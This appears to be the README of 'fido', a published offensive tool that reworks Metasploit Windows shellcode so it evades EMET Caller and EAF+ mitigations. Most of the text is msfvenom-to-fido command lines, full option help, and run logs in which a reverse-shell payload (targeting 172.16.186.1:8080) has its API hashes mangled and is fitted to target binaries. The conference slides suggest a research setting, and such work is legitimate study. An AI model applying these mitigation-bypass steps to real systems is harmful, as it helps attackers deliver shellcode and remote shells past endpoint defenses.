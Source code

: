 # fido
Teaching an old shellcode new tricks

Give fido.py a x86 (32 bit) windows shellcode and it will strip off Stephen Fewer's hash API stub and replace it 
with something that bypasses EMET Caller and EAF+ checks but keeps the actual API calls in use.

# WARNING: If the 2nd stage payload uses the hash api from metasploit that loads Win APIs from the Export Address Table and jmp's into them, EMET will catch it.

If the warning didn't make sense, you might want to walk away or read up: 

* REcon BR Slides: https://github.com/secretsquirrel/fido/blob/master/REconBR_2017.pdf
* Defcon 25 Slides: https://github.com/secretsquirrel/fido/blob/master/Defcon_25_2017.pdf
* Demo1 (Hash Mangling POC): https://youtu.be/p3vFRx5dur0
* Demo2 (Tor Exploit POC): https://youtu.be/oqHT6Ienudg

## Usage

Can take input from stdout and output to stdout:
```
msfvenom -p windows/exec CMD=calc EXITFUNC=thread | ~/github/fido/testharness.py -m -b Tcpview.exe -p ExternGPA -t win10  > test.bin
```

Can take input from cmdline (via -s).

Want win7-win10 compatibility?  Use the following command:

```
msfvenom -p windows/exec CMD=calc EXITFUNC=thread | ~/github/fido/fido.py -p ExternGPA -l api-ms-win-core-libraryloader-l1-1-0.dll -d kernel32.dll > test.bin
```

This will use GetProcAddress in api-ms-win-core-libraryloader-l1-1-0.dll import from the kernel32.dll loaded module. 


Help output:

```
[!] -s is required either from cmd line flag or stdin <cat code.bin> | ./fido.py
usage: use "fido.py --help" for more information

This code imports metasploit sourced x86 windows shellcode that employs
Stephen Fewers Hash API stub and replaces it to bypass EMET Caller/EAF checks
and other bolt on mitigations. Accepts msfvenom output from stdin or from disk.
Doesn't do logic checks on provided payload to ensure it is x86 (32bit) or for windows
OS (up to you to be correct)

positional arguments:
  infile
  outfile

optional arguments:
  -h, --help            show this help message and exit
  -b TARGETBINARY, --targetbinary TARGETBINARY
                        Binary that shellcode will be customized to (Optional)
  -t OS, --OSTarget OS  OS target for looking for target DLL Import Tables: winXP, win7, win8, winVista, win10
  -s CODE, --shellcode CODE
                        x86/x64 Windows Shellcode with Stephen Fewers Hash API prepended (from msfvenom) can be from stdin
  -d DLL, --DLLName DLL
                        If you know the DLL in the IAT you are targeting enter this, no need for OS flag.
  -l IMPORTNAME, --Import IMPORTNAME
                        For use with -d and ExternGPA (-p), specify either 'kernel32.dll' or
                        'api-ms-win-core-libraryloader' -- you need to know with import you are targeting.
                        To know, run without -d for a list of candidates. Default is kernel32.dll but not always right!

  -m, --mangle          Mangle metasploit hash apis from their original values (you want to do this)
  -o OUTPUT, --output OUTPUT
                        How you would like your output: [c], [p]ython, c[s]harp Default: stdout.
  -p PARSER_STUB, --parser_stub PARSER_STUB
                        By default this assumes that GetProcAddress (GPA) is in the targetbinary's
                        Import Address Table (IAT) if no targetbinary or DLL name is provided.
                        Four options:
                            GPA  - GPA is in targetbinary IAT (default)
                            LLAGPA - LoadlibraryA(LLA)/GPA is in the targetbinary IAT (smallest shellcode option)
                            ExternGPA -- need DLLName or targetbinary to use
                            ExternLLAGPA -- need DLLName or targetbinary to use
                            ExternGPAFC -- -d kernel32.dll -l kernelbase.dll  # only works on win8 - win10
                            OffsetGPA -- -b target.EXE # static offset to that version of software (target EXE)
                            ExternOffsetGPA -- -b target.DLL -d import_dll # static
  -n, --donotfail       Default: Fail if Stephen Fewers Hash API stub is not there, use -n to bypass
  -M MODE, --mode MODE ASM mode 32 or 64, usually automatic
```

## Other Examples:

 ### ExternGPAFC
Works on Win8-Win10 only.
```
 cat ~/github/metasploit-framework/reverse_shell_x64_8080_172.16.186.1.bin |  ./fido.py -b ~/github/the-backdoor-factory/whois64.exe -m -p ExternGPAFC -t win10 > test.bin
[*] Length of submitted payload: 0x1cc
[*] Stripping Stripping Fewers 64bit hash stub 
[*] Length of code after stripping: 258
[*] Disassembling payload
[*] Mangling kernel32.dll!LoadLibraryA call hash: 0x5df8d241
[*] Mangling ws2_32.dll!WSAStartup call hash: 0xe6fe222e
[*] Mangling ws2_32.dll!WSASocketA call hash: 0x16f19f04
[*] Mangling ws2_32.dll!connect call hash: 0x76223a2d
[*] Mangling kernel32.dll!CreateProcessA call hash: 0x6d6e1502
[*] Mangling kernel32.dll!WaitForSingleObject call hash: 0x44e7a13f
[*] Mangling kernel32.dll!ExitThread call hash: 0x5a4eb474
[*] Mangling kernel32.dll!GetVersion call hash: 0xf1669f77
[*] Mangling ntdll.dll!RtlExitUserThread call hash: 0x66b4939a
[*] Called APIs: ['kernel32.dll!LoadLibraryA', 'ws2_32.dll!WSAStartup', 'ws2_32.dll!WSASocketA', 'ws2_32.dll!connect', 'kernel32.dll!CreateProcessA', 'kernel32.dll!WaitForSingleObject', 'kernel32.dll!ExitThread', 'kernel32.dll!GetVersion', 'ntdll.dll!RtlExitUserThread']
[*] String Table: b'ExitThread\x00WSASocketA\x00CreateProcessA\x00kernel32\x00LoadLibraryA\x00RtlExitUserThread\x00ws2_32\x00connect\x00GetVersion\x00WaitForSingleObject\x00ntdll\x00WSAStartup\x00'
[*] Building lookup table
[*] Using ExternGPAFC from  hash: 0x0, import name: kernelbase.dll
[*] Assembling lookup table stub
[*] Payload complete
[*] Output size: 964

```


 ### ExternOffset
Uses the exact location of GetProcAddress Offset for a particular dll and import dll. In this case, kernel32_10.0.16237_32bit.dll is the target version bianry, and GPA exists in kernel32.dll via (minwin).

```
cat ~/github/metasploit-framework/reverse_shell_x64_8080_172.16.186.1.bin |  ./fido.py -b kernel32_10.0.16237_32bit.dll -d kernel32.dll -m -p ExternOffsetGPA -t win10 > test.bin                          
[*] Length of submitted payload: 0x1cc
[*] Stripping Stripping Fewers 64bit hash stub 
[*] Length of code after stripping: 258
[*] Disassembling payload
[*] Mangling kernel32.dll!LoadLibraryA call hash: 0x89d3d69b
[*] Mangling ws2_32.dll!WSAStartup call hash: 0x23b6665d
[*] Mangling ws2_32.dll!WSASocketA call hash: 0x7c77f885
[*] Mangling ws2_32.dll!connect call hash: 0x78e785f1
[*] Mangling kernel32.dll!CreateProcessA call hash: 0x53e02b59
[*] Mangling kernel32.dll!WaitForSingleObject call hash: 0xcb5b4068
[*] Mangling kernel32.dll!ExitThread call hash: 0xcd188037
[*] Mangling kernel32.dll!GetVersion call hash: 0x6a298791
[*] Mangling ntdll.dll!RtlExitUserThread call hash: 0x1b59416e
[*] Called APIs: ['kernel32.dll!LoadLibraryA', 'ws2_32.dll!WSAStartup', 'ws2_32.dll!WSASocketA', 'ws2_32.dll!connect', 'kernel32.dll!CreateProcessA', 'kernel32.dll!WaitForSingleObject', 'kernel32.dll!ExitThread', 'kernel32.dll!GetVersion', 'ntdll.dll!RtlExitUserThread']
[*] String Table: b'RtlExitUserThread\x00WSAStartup\x00CreateProcessA\x00WaitForSingleObject\x00WSASocketA\x00LoadLibraryA\x00ws2_32\x00GetVersion\x00ExitThread\x00ntdll\x00connect\x00kernel32\x00'
[*] Building lookup table
[*] Loading PE in pefile
[*] Parsing data directories
[*] Found API: loadlibrarya
[*] Found API: getprocaddress
[*] Both LLA/GPA APIs found!
[*] Using ExternOffsetGPA from kernel32.dll hash: 0x6a4abc5b, import name: main_module
[*] Parsing data directories...
[*] GPA offset: 0x710a8
[*] Assembling lookup table stub
[*] Payload complete
[*] Output size: 830
```


